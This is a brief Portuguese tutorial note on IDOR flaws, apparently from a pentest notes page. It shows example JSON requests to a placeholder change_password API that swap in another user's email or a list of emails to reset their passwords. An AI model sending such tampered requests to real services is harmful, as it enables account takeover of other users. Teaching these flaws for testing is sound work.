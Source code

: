 IDOR é a possibilidade de um usuário alterar informações de outro usuário.

Devemos sempre está atentos as requisições, e o que elas mandam. Como `id` de usuário, `email`, `hashes` e etc ...

Digamos que algum ``backend`` faça a seguinte requisição para a ``api``.

<input style="font-size:18pt;padding:5px;width:100%;" value="http://corp.com/api/change_password">
```json
{
	"email":"nycolas@corp.com",
	"new_password":"nycolas"
}
```

Podemos alterar o email, e ver se há algum retorno do backend.
<input style="font-size:18pt;padding:5px;width:100%;" value="http://corp.com/api/change_password">
```json
{
	"email":"davi@corp.com",
	"new_password":"nycolas"
}
```

Ou até mesmo passar uma lista de usuários.
<input style="font-size:18pt;padding:5px;width:100%;" value="http://corp.com/api/change_password">
```json
{
	"email":[
		"nycolas@corp.com",
		"davi@corp.com"
	],
	"new_password":"nycolas"
}
```




